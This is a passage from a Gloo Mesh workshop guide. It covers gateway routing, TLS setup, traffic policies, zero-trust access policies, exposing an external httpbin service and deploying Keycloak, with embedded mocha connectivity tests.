In this example, you can see that the Gateway team is delegating the routing details to the `bookinfo` and `httpbin` workspaces. The teams in charge of these workspaces can expose their services through the gateway.

The Gateway team can use this main `RouteTable` to enforce a global WAF policy, but also to have control on which hostnames and paths can be used by each application team.

Then, the Bookinfo team can create a `RouteTable` to determine how they want to handle the traffic.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  http:
    - name: productpage
      matchers:
      - uri:
          exact: /productpage
      - uri:
          prefix: /static
      - uri:
          exact: /login
      - uri:
          exact: /logout
      - uri:
          prefix: /api/v1/products
      forwardTo:
        destinations:
          - ref:
              name: productpage
              namespace: bookinfo-frontends
              cluster: cluster1
            port:
              number: 9080
EOF
```

You should now be able to access the `productpage` application through the browser.

Get the URL to access the `productpage` service using the following command:
```
echo "http://${ENDPOINT_HTTP_GW_CLUSTER1}/productpage"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (HTTP)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: 'http://' + process.env.ENDPOINT_HTTP_GW_CLUSTER1, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/bookinfo/gateway-expose/tests/productpage-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Gloo Mesh translates the `VirtualGateway` and `RouteTable` into the corresponding Istio objects (`Gateway` and `VirtualService`).

Now, let's secure the access through TLS.

Let's first create a private key and a self-signed certificate:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"
```

Then, you have to store them in a Kubernetes secrets running the following commands:

```bash
kubectl --context ${CLUSTER1} -n istio-gateways create secret generic tls-secret \
--from-file=tls.key=tls.key \
--from-file=tls.crt=tls.crt
```

Finally, the Gateway team needs to update the `VirtualGateway` to use this secret:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
# ---------------- Redirect to https --------------------
      httpsRedirect: true
# -------------------------------------------------------
    - http: {}
# ---------------- SSL config ---------------------------
      port:
        number: 443
      tls:
        mode: SIMPLE
        secretName: tls-secret
# -------------------------------------------------------
      allowedRouteTables:
        - host: '*'
EOF
```

You can now access the `productpage` application securely through the browser.
Get the URL to access the `productpage` service using the following command:
```
echo "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/productpage"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (HTTPS)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/bookinfo/gateway-expose/tests/productpage-available-secure.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

This diagram shows the flow of the request (through the Istio Ingress Gateway):


## Lab 10 - Traffic policies <a name="lab-10---traffic-policies-"></a>

We're going to use Gloo Mesh policies to inject faults and configure timeouts.

Let's create the following `FaultInjectionPolicy` to inject a delay when the `v2` version of the `reviews` service talk to the `ratings` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: FaultInjectionPolicy
metadata:
  name: ratings-fault-injection
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        fault_injection: "true"
  config:
    delay:
      fixedDelay: 2s
      percentage: 100
EOF
```

As you can see, it will be applied to all the routes that have the label `fault_injection` set to `"true"`.

So, you need to create a `RouteTable` with this label set in the corresponding route.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: ratings
  namespace: bookinfo-frontends
spec:
  hosts:
    - 'ratings.bookinfo-backends.svc.cluster.local'
  workloadSelectors:
  - selector:
      labels:
        app: reviews
  http:
    - name: ratings
      labels:
        fault_injection: "true"
      matchers:
      - uri:
          prefix: /
      forwardTo:
        destinations:
          - ref:
              name: ratings
              namespace: bookinfo-backends
            port:
              number: 9080
EOF
```

If you refresh the webpage, you should see that it takes longer to get the `productpage` loaded when version `v2` of the `reviews` services is called.

Now, let's configure a 0.5s request timeout when the `productpage` service calls the `reviews` service on cluster1.

You need to create the following `RetryTimeoutPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: RetryTimeoutPolicy
metadata:
  name: reviews-request-timeout
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        request_timeout: "0.5s"
  config:
    requestTimeout: 0.5s
EOF
```

As you can see, it will be applied to all the routes that have the label `request_timeout` set to `"0.5s"`.

Then, you need to create a `RouteTable` with this label set in the corresponding route.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: reviews
  namespace: bookinfo-frontends
spec:
  hosts:
    - 'reviews.bookinfo-backends.svc.cluster.local'
  workloadSelectors:
  - selector:
      labels:
        app: productpage
  http:
    - name: reviews
      labels:
        request_timeout: "0.5s"
      matchers:
      - uri:
          prefix: /
      forwardTo:
        destinations:
          - ref:
              name: reviews
              namespace: bookinfo-backends
            port:
              number: 9080
            subset:
              version: v2
EOF
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const chaiHttp = require("chai-http");
chai.use(chaiHttp);

process.env.NODE_TLS_REJECT_UNAUTHORIZED = '0';

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

let searchTest="Sorry, product reviews are currently unavailable for this book.";

describe("Reviews shouldn't be available", () => {
  it("Checking text '" + searchTest + "' in cluster1", async () => {
    await chai.request('https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1)
      .get('/productpage')
      .send()
      .then((res) => {
        expect(res.text).to.contain(searchTest);
      });
  });

});

EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/bookinfo/traffic-policies/tests/traffic-policies-reviews-unavailable.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

If you refresh the page several times, you'll see an error message telling that reviews are unavailable when the productpage is trying to communicate with the version `v2` of the `reviews` service.



This diagram shows where the timeout and delay have been applied:


Let's delete the Gloo Mesh objects we've created:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete faultinjectionpolicy ratings-fault-injection
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete routetable ratings
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete retrytimeoutpolicy reviews-request-timeout
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete routetable reviews
```


## Lab 11 - Zero trust <a name="lab-11---zero-trust-"></a>

In the previous step, we federated multiple meshes and established a shared root CA for a shared identity domain.

All the communications between Pods in the mesh are now encrypted by default, but:

- communications between services that are in the mesh and others which aren't in the mesh are still allowed and not encrypted
- all the services can talk together

Let's validate this.

<!--bash
(timeout 2s kubectl --context ${CLUSTER1} -n httpbin rollout status deploy/in-mesh) || (kubectl --context ${CLUSTER1} -n httpbin rollout restart deploy/in-mesh && kubectl --context ${CLUSTER1} -n httpbin rollout status deploy/in-mesh)
-->
Run the following commands to initiate a communication from a service which isn't in the mesh to a service which is in the mesh:

```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

You should get a `200` response code which confirm that the communication is currently allowed.

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Communication allowed", () => {
  it("Response code should be 200", () => {
    const podName = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}'" }).replaceAll("'", "");
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin debug -i -q " + podName + " --image=curlimages/curl -- curl -s -o /dev/null -w \"%{http_code}\" http://reviews.bookinfo-backends:9080/reviews/0" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/bookinfo/zero-trust/tests/not-in-mesh-to-in-mesh-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Run the following commands to initiate a communication from a service which is in the mesh to another service which is in the mesh:

```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Communication allowed", () => {
  it("Response code should be 200", () => {
    const podName = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}'" }).replaceAll("'", "");
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin debug -i -q " + podName + " --image=curlimages/curl -- curl -s -o /dev/null -w \"%{http_code}\" http://reviews.bookinfo-backends:9080/reviews/0" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/bookinfo/zero-trust/tests/in-mesh-to-in-mesh-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You should get a `200` response code again.

To enfore a zero trust policy, it shouldn't be the case.

We'll leverage the Gloo Mesh workspaces to get to a state where:

- communications between services which are in the mesh and others which aren't in the mesh aren't allowed anymore
- communications between services in the mesh are allowed only when services are in the same workspace or when their workspaces have import/export rules.

The Bookinfo team must update its `WorkspaceSettings` Kubernetes object to enable service isolation.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: ALL
      labels:
        expose: "true"
  options:
    serviceIsolation:
      enabled: true
      trimProxyConfig: true
EOF
```

When service isolation is enabled, Gloo Mesh creates the corresponding Istio `AuthorizationPolicy` and `PeerAuthentication` objects to enforce zero trust.

When `trimProxyConfig` is set to `true`, Gloo Mesh also creates the corresponding Istio `Sidecar` objects to program the sidecar proxies to only know how to talk to the authorized services.

If you refresh the browser, you'll see that the bookinfo application is still exposed and working correctly.

Run the following commands to initiate a communication from a service which isn't in the mesh to a service which is in the mesh:

```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

You shouldn't get a `200` response code, which means that the communication isn't allowed.

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Communication not allowed", () => {
  it("Response code shouldn't be 200", () => {
    const podName = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}'" }).replaceAll("'", "");
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin debug -i -q " + podName + " --image=curlimages/curl -- curl -s -o /dev/null -w \"%{http_code}\" http://reviews.bookinfo-backends:9080/reviews/0" }).replaceAll("'", "");
    expect(command).not.to.contain("200");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/bookinfo/zero-trust/tests/not-in-mesh-to-in-mesh-not-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Run the following commands to initiate a communication from a service which is in the mesh to another service which is in the mesh:

```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Communication not allowed", () => {
  it("Response code shouldn't be 200", () => {
    const podName = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}'" }).replaceAll("'", "");
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin debug -i -q " + podName + " --image=curlimages/curl -- curl -s -o /dev/null -w \"%{http_code}\" http://reviews.bookinfo-backends:9080/reviews/0" }).replaceAll("'", "");
    expect(command).not.to.contain("200");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/bookinfo/zero-trust/tests/in-mesh-to-in-mesh-not-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You shouldn't get a `200` response code, which means that the communication isn't allowed.

You've see seen how Gloo Platform can help you to enforce a zero trust policy (at workspace level) with nearly no effort.

Now we are going to define some additional policies to achieve zero trust at service level.

We are going to define AccessPolicies from the point of view of a service producers. 

> I am owner of service A, which services needs to communicate with me?


Productpage app is the only service which is exposed to the internet, so we will create an `AccessPolicy` to allow the Istio Ingress Gateway to forward requests to the productpage service.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: frontend-api-access
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - selector:
      labels:
        app: productpage
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          name: istio-ingressgateway-1-17-service-account
          namespace: istio-gateways
      - serviceAccountSelector:
          name: istio-eastwestgateway-1-17-service-account
          namespace: istio-gateways
      - serviceAccountSelector:
          name: ext-auth-service
          namespace: gloo-mesh-addons
      - serviceAccountSelector:
          name: rate-limiter
          namespace: gloo-mesh-addons
EOF
```

Details and reviews are both used by the productpage service, so we will create an AccessPolicy to allow the productpage service to forward requests to the details and reviews services.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: allow-details-reviews
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - selector:
      labels:
        app: details
  - selector:
      labels:
        app: reviews
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          name: bookinfo-productpage
EOF
```

Finally, we will create an AccessPolicy to allow the reviews service to forward requests to the ratings service.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: allow-ratings
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - selector:
      labels:
        app: ratings
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          name: bookinfo-reviews
EOF
```

Let's check that requests from `productpage` are denied/allowed properly:

```sh
pod=$(kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}')
echo "From productpage to details, should be allowed"
kubectl --context ${CLUSTER1} -n bookinfo-frontends debug -i -q ${pod} --image=curlimages/curl -- curl -s http://details.bookinfo-backends:9080/details/0 | jq

echo "From productpage to reviews, should be allowed"
kubectl --context ${CLUSTER1} -n bookinfo-frontends debug -i -q ${pod} --image=curlimages/curl -- curl -s http://reviews.bookinfo-backends:9080/reviews/0 | jq

echo "From productpage to ratings, should be denied"
kubectl --context ${CLUSTER1} -n bookinfo-frontends debug -i -q ${pod} --image=curlimages/curl -- curl -s http://ratings.bookinfo-backends:9080/ratings/0 -i

```

You shouldn't get a `200` response code, which means that the communication isn't allowed.

```sh,nocopy
HTTP/1.1 403 Forbidden
content-length: 19
content-type: text/plain
server: envoy
x-envoy-upstream-service-time: 18

RBAC: access denied
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Communication allowed", () => {

  it("Response code shouldn't be 200 accessing ratings", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.get('http://ratings.bookinfo-backends:9080/ratings/0'); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).not.to.contain("200");
  });

  it("Response code should be 200 accessing reviews", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.get('http://reviews.bookinfo-backends:9080/reviews/0'); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });

  it("Response code should be 200 accessing details", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.get('http://details.bookinfo-backends:9080/details/0'); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });
});

EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/bookinfo/zero-trust/tests/bookinfo-access.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
Let's rollback the change we've made in the `WorkspaceSettings` object:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: ALL
      labels:
        expose: "true"
EOF
```

and delete the `AccessPolicies`:

```bash
kubectl --context ${CLUSTER1} delete accesspolicies -n bookinfo-frontends --all
```


## Lab 12 - Create the httpbin workspace <a name="lab-12---create-the-httpbin-workspace-"></a>

We're going to create a workspace for the team in charge of the httpbin application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `httpbin` workspace which corresponds to the `httpbin` namespace on `cluster1`:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: httpbin
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: httpbin
EOF
```

Then, the Httpbin team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `httpbin` workspace:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: httpbin
  namespace: httpbin
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: in-mesh
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Httpbin team has decided to export the following to the `gateway` workspace (using a reference):
- the `in-mesh` Kubernetes service
- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`


## Lab 13 - Expose an external service <a name="lab-13---expose-an-external-service-"></a>

In this step, we're going to expose an external service through a Gateway using Gloo Mesh and show how we can then migrate this service to the Mesh.

Let's create an `ExternalService` corresponding to `httpbin.org`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
  - httpbin.org
  ports:
  - name: http
    number: 80
    protocol: HTTP
  - name: https
    number: 443
    protocol: HTTPS
    clientsideTls: {}
EOF
```

Now, you can create a `RouteTable` to expose `httpbin.org` through the gateway:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - kind: EXTERNAL_SERVICE
          port:
            number: 443
          ref:
            name: httpbin
            namespace: httpbin
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the external service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: 'X-Amzn-Trace-Id', match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-external.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You should now be able to access `httpbin.org` external service through the gateway.

Get the URL to access the `httpbin` service using the following command:
```
echo "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get"
```

Let's update the `RouteTable` to direct 50% of the traffic to the local `httpbin` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - kind: EXTERNAL_SERVICE
          port:
            number: 443
          ref:
            name: httpbin
            namespace: httpbin
          weight: 50
        - ref:
            name: in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
          weight: 50
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the local service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' not in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: 'X-Amzn-Trace-Id', match: false }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-local.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the external service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: 'X-Amzn-Trace-Id', match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-external.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

If you refresh your browser, you should see that you get a response either from the local service or from the external service.

When the response comes from the external service (httpbin.org), there's a `X-Amzn-Trace-Id` header.

And when the response comes from the local service, there's a `X-B3-Parentspanid` header.

Finally, you can update the `RouteTable` to direct all the traffic to the local `httpbin` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the local service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' not in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: 'X-Amzn-Trace-Id', match: false }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-local.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

If you refresh your browser, you should see that you get responses only from the local service.

This diagram shows the flow of the requests :


## Lab 14 - Deploy Keycloak <a name="lab-14---deploy-keycloak-"></a>

In many use cases, you need to restrict the access to your applications to authenticated users. 

OIDC (OpenID Connect) is an identity layer on top of the OAuth 2.0 protocol. In OAuth 2.0 flows, authentication is performed by an external Identity Provider (IdP) which, in case of success, returns an Access Token representing the user identity. The protocol does not define the contents and structure of the Access Token, which greatly reduces the portability of OAuth 2.0 implementations.

The goal of OIDC is to address this ambiguity by additionally requiring Identity Providers to return a well-defined ID Token. OIDC ID tokens follow the JSON Web Token standard and contain specific fields that your applications can expect and handle. This standardization allows you to switch between Identity Providers – or support multiple ones at the same time – with minimal, if any, changes to your downstream services; it also allows you to consistently apply additional security measures like Role-based Access Control (RBAC) based on the identity of your users, i.e. the contents of their ID token.

In this lab, we're going to install Keycloak. It will allow us to setup OIDC workflows later.

Let's install it:

```bash
kubectl --context ${MGMT} create namespace keycloak
cat data/steps/deploy-keycloak/keycloak.yaml | kubectl --context ${MGMT} -n keycloak apply -f -

kubectl --context ${MGMT} -n keycloak rollout status deploy/keycloak
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Keycloak", () => {
  it('keycloak pods are ready in cluster1', () => helpers.checkDeployment({ context: process.env.MGMT, namespace: "keycloak", k8sObj: "keycloak" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/deploy-keycloak/tests/pods-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Retrieve enterprise-networking ip", () => {
  it("A value for load-balancing has been assigned", () => {
    let cli = chaiExec("kubectl --context " + process.env.MGMT + " -n keycloak get svc keycloak -o jsonpath='{.status.loadBalancer}'");
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('"ingress"');
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/deploy-keycloak/tests/keycloak-ip-is-attached.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Then, we will configure it and create two users:

- User1 credentials: `user1/password`
  Email: user1@example.com

- User2 credentials: `user2/password`
  Email: user2@solo.io

<!--bash
until [[ $(kubectl --context ${MGMT} -n keycloak get svc keycloak -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done
-->

